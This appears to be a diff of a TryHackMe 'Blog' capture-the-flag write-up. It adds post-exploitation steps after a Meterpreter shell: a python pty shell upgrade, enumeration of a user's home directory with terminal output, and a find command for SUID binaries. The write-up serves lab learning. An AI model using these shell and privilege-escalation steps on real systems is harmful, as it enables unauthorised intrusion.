

Before and after one commit to muhammedkayag/TryHackMe-Blog-WriteUp, a Markdown page: blog.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/blog.md
+++ b/blog.md
@@ -254,6 +254,9 @@ run
 ```
 
 
+![](pics/b7.png)
+
+
 
 And we see its worked we have a meterpreter shell. Then we use this commands to get a normal shell:
 
@@ -266,3 +269,63 @@ shell
 ```
 python3 -c 'import pty;pty.spawn("/bin/bash"'
 ```
+
+
+
+After that we are in as user www-data. When we go to the home directory and we see there is a user named bjoel and in bjoel directory there is user.txt but it doesn't give us a flag:
+
+
+
+```
+(Meterpreter 2)(/var/www/wordpress) > shell
+Process 6607 created.
+Channel 1 created.
+python3 -c 'import pty;pty.spawn("/bin/bash")'
+www-data@blog:/var/www/wordpress$ cd /home
+cd /home
+www-data@blog:/home$ ls -la
+ls -la
+total 12
+drwxr-xr-x  3 root  root  4096 May 26  2020 .
+drwxr-xr-x 24 root  root  4096 May 25  2020 ..
+drwxr-xr-x  4 bjoel bjoel 4096 May 26  2020 bjoel
+www-data@blog:/home$ cd bjoel
+cd bjoel
+www-data@blog:/home/bjoel$ ls -la
+ls -la
+total 100
+drwxr-xr-x 4 bjoel bjoel  4096 May 26  2020 .
+drwxr-xr-x 3 root  root   4096 May 26  2020 ..
+lrwxrwxrwx 1 root  root      9 May 26  2020 .bash_history -> /dev/null
+-rw-r--r-- 1 bjoel bjoel   220 Apr  4  2018 .bash_logout
+-rw-r--r-- 1 bjoel bjoel  3771 Apr  4  2018 .bashrc
+drwx------ 2 bjoel bjoel  4096 May 25  2020 .cache
+drwx------ 3 bjoel bjoel  4096 May 25  2020 .gnupg
+-rw-r--r-- 1 bjoel bjoel   807 Apr  4  2018 .profile
+-rw-r--r-- 1 bjoel bjoel     0 May 25  2020 .sudo_as_admin_successful
+-rw-r--r-- 1 bjoel bjoel 69106 May 26  2020 Billy_Joel_Termination_May20-2020.pdf
+-rw-r--r-- 1 bjoel bjoel    57 May 26  2020 user.txt
+www-data@blog:/home/bjoel$ cat user.txt
+cat user.txt
+You won't find what you're looking for here.
+
+TRY HARDER
+www-data@blog:/home/bjoel$
+```
+
+
+
+Then we use this command to see which files runs with root privileges:
+
+
+
+```
+find / -perm -u=s -type f 2>/dev/null
+```
+
+
+
+And we see there is a file called checker:
+
+
+
````
Also changed, not shown: other parts of blog.md (+53 -0 lines).
